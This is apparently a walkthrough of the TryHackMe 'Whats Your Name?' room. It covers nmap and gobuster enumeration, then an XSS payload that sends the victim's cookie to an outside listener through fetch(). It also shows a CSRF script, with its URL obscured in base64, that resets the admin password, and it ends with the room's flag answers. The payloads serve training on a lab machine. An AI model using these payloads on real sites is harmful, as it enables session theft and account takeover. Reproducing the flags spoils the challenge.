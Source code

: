 # [Whats Your Name?](https://tryhackme.com/room/whatsyourname)

![Name](./images/name.png)

[Whats Your Name?](https://tryhackme.com/room/whatsyourname) is listed as an medium room. Utilise your client-side exploitation skills to take control of a web app.

An overview of what we’ll be using is listed here:  

* Nmap scan
* Gobuster
* XSS Payload
* Burpsuite

## Challenge

This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks. To start the VM, click the Start Machine button at the top right of the task.

You will find all the necessary tools to complete the challenge, like Nmap, PHP shells, and many more on the AttackBox. Also, please add the hostname worldwap.thm in the hosts file.

"Never click on links received from unknown sources. Can you capture the flags and get admin access to the web app?"

## Enumeration

* Nmap scan

    ```
    nmap worldwap.thm -A 
    ```
    
    ![Nmap](./images/nmap.png)

* Directory scan with Gobuster

    ```
    gobuster dir -u http://login.worldwap.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
    ```
    
    ![gobuster](./images/gobuster.png)

* Explore the web

    ![web](./images/web.png)

* Trying to register

    ![register](./images/register.png)

* Trying to login

    ![login](./images/login.png)

## Exploitation

* Geting coockie with XSS

    * Setup listener
  
        ![listener](./images/listener.png)

    * Resgister with XSS payload
  
        ```
        <img src="empty.png" onerror="fetch('http://10.10.98.225:8000?cookie='+document.cookie); " />
        ```

        ![reg-payload](./images/reg-payload.png)

    * Wait to get the coockie

        ![cookie](./images/cookie.png/)

    * Open login page and change the PHPSESSID with cookie
    
        ![PHPSESSID](./images/PHPSESSID.png)
    
    * Get access to Moderator page

        ![flag1](./images/flag1.png)

* Push to reset password admin via chat with CSRF payload

    * Get the parameter change password via burpsuite

        ![change](./images/change.png)

        ![parameter](./images/parameter.png)

    * Send CSRF payload via Chat
  
        ```
        <script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', atob('aHR0cDovL2xvZ2luLndvcmxkd2FwLnRobS9jaGFuZ2VfcGFzc3dvcmQucGhw'), true);
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.onreadystatechange = function () {
            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                alert("Action executed!");
            }
        };
        xhr.send('action=execute&new_password=admin1');
        </script>    
        ```

        ![chat](./images/chat.png)

    * Login with admin user

        ![flag2](./images/flag2.png)

## Answer the questions below

* What is the flag value after accessing the moderator account?

    ![flag1](./images/flag1.png)
    
    ```
    ModP@wnEd
    ```

* What is the flag value after accessing the admin panel?

    ![flag2](./images/flag2.png)

    ```
    AdM!nP@wnEd
    ```